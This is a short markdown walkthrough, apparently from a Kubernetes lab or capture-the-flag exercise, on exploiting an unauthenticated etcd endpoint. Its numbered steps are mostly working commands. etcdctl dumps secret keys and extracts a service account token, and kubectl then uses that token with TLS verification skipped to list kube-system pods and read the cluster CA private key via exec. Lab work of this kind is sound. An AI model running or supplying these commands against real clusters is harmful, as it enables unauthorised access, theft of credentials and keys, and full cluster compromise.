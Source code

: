 ## Unauthenticated ETCD

1. Exploiting this takes a couple of steps
2. Set the ETCD environment variable `export ETCDCTL_API=3`
3. First we need to dump some secrets out of the etcd database 
  `etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://[CLUSTERIP]:2379 get / --prefix --keys-only`
4. Then we'll need a service account token to authenticate to the cluster with
  `etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://[IP]:2379 get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-[RAND]`
  The service account token starts with ey and ends just before the word `kubernetes.io` in the token.  
5. To use the command line we'll need `bash` as the `ash` in the alpine Linux container doesn't like long commandlines
   `apk update && apk add bash`
   `bash`
6. With the service token we can use kubectl , first get the API pod name
  `kubectl --insecure-skip-tls-verify -shttps://[IP]:6443/ --token="[TOKEN]" -n kube-system get po`

6. Then get the key   
  `kubectl --insecure-skip-tls-verify -shttps://[IP]:6443/ --token="[TOKEN]" -n kube-system exec [API_SERVER_POD] cat /etc/kubernetes/pki/ca.key`